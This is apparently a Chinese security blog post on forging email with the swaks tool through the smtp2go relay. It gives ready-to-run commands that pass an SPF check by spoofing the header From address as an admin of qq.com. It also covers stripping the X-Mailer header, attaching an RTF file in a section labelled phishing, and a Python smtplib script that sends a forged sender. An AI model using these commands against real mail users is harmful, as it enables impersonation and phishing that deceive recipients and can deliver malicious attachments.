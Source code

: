 ```yaml
---
title: Swaks伪造邮件
layout: post
date: '2019-05-09'
categories: 高效
permalink: "/archivers/2019-05-09/1"
description: 绕过一些邮件服务器的简单检测
---
```


## 0x00 swaks

swaks - Swiss Army Knife SMTP, the all-purpose smtp transaction tester.

swaks堪称SMTP协议的瑞士军刀，使用它我们可以灵活的操作SMTP协议报文，这篇文章主要是记录一下我是如何伪造一封邮件绕过gmail的检测。

通常最简单的发送命令：

```bash
swaks --to user@example.com --server test-server.example.net
```

但是邮件头中会带上`X-Mailer`：

![2019-05-09-14-24-53](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/002a7f0de092a69a661400aaf83e2d4a.png)


同时，SPF检测会FAIL。

## 0x01 smtp2go

这个是从evi1cg师傅那里看到的，smtp2go主要是相当于邮件托管，可以分发子账户进行发送。

地址：https://support.smtp2go.com/hc/en-gb

（邮箱注册）普通账户可以免费发1000封邮件。


分配好账户后，可以通过swaks进行登录发送邮件：

![2019-05-09-14-28-50](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b8b6ba65c1870a17710b0cbfe77359b3.png)

## 0x02 swaks发送邮件

```bash
swaks --to rvn0xsy@gmail.com --from admin@qq.com --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASS>
```

但是上面这个邮件无法绕过SPF。

## 0x03 SPF验证原理

如果mail.smtp2go.com是我的邮件服务器，那么gmail服务器收到的源IP也肯定是mail.smtp2go.com的IP。

gmail会校验邮件发送者的IP是否存在于smtp.from的域名spf配置列表里。

而上面这条命令：

```bash
swaks --to rvn0xsy@gmail.com --from admin@qq.com --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASS>
```

smtp.from就是admin@qq.com，和mail.smtp2go.com的IP肯定不同，所以SPF校验失败，而校验失败的邮件，会有很高的几率被扔到垃圾邮件中。

默认情况下，如果未设置Mail.From也就是邮件头的From，则会使用smtp.from作为Mail.From。

![2019-05-09-14-38-39](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/323e7ae3e0e177b37b051c421b31c1ad.png)


## 0x04 绕过SPF

由于邮件显示的是Header中的From不是smtp.from，因此可以将smtp.from设置为正常的邮件服务器地址，伪造一个Mail.From即可。

```bash
swaks --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS>
```

Gmail接收到这封邮件后，会校验`--from xx@smtp2go.com`中的smtp2go.com是否等于mail.smtp2go.com的IP，由于是相等的，所以完成了SPF的校验。

而DKIM是校验邮件完整性的，smtp2go与Gmail直接使用的是TLS，不会发生什么问题。


![2019-05-09-14-42-55](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/a5868ef92b72691b8d0e36328cf174f6.png)

## 0x05 Header

swaks支持自定义某些Header，参数如下：

```bash
swaks --header-<Name> <Value>
```

如果我想去除Mailer特征，就可以这么做：

```bash
swaks --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> 
```

## 0x06 附件、钓鱼

```bash
swaks --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> --attach /tmp/sss.rtf
```

定制发送：

```bash
swaks --data /tmp/mail.data --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> --attach /tmp/sss.rtf
```

/tmp/mail.data中是原始的邮件报文。

## 0x07 Python也可以做

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

import smtplib
from email.mime.text import MIMEText
from email.header import Header

mail_host="mail.smtp2go.com"
mail_user=""
mail_pass=""


sender = 'test@smtp2go.com'
receivers = ['rvn0xsy@gmail.com']

message = MIMEText('Hello World', 'plain', 'utf-8')
message['From'] = Header("from@qq.com", 'utf-8')
message['To'] =  Header(receivers[0], 'utf-8')

subject = 'SMTP 邮件测试'
message['Subject'] = Header(subject, 'utf-8')


try:
    smtpObj = smtplib.SMTP()
    smtpObj.connect(mail_host, 25)
    smtpObj.login(mail_user,mail_pass)
    smtpObj.sendmail(sender, receivers, message.as_string())
    print "Success"
except smtplib.SMTPException:
    print "Error"
```